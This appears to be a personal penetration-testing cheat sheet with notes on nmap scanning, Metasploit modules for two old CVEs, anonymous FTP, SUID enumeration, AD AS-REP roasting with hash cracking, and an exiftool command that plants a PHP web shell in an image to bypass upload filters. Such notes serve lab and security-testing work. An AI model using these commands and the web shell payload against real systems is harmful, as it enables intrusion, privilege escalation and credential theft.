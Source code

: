 # Recon
Scan aggresivly on all ports with OS detection, version detection, script scanning and traceroute and write to file
```
nmap -p- -T4 -oN <outfile> -A <IP>
```

# Metasploit
local_exploit_suggester is really helpfull, but only on x86

## Correlation

Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


# FTP
Try 
```
ftp <ip>
```
and use "anonymous" as name.

# Local Priv Esc
https://gtfobins.github.io/

# File-Filter-Busting

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg
```
https://github.com/xapax/security/blob/master/bypass_image_upload.md


# Interactive Python pty
`python3 -c 'import pty; pty.spawn("/bin/sh")'`


# Sticky-Bit
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# SMB-Enum
enum4linux

# AzureAD
https://github.com/VbScrub/AdSyncDecrypt/releases
https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/

# Windows-RPC-Service
https://nmap.org/nsedoc/scripts/nfs-showmount.html

# Enum AD
GetNPUsers.py -usersfile <user_list> -dc-ip <dc-ip> <domain>/
Afterwards crack with john or oclhashcat
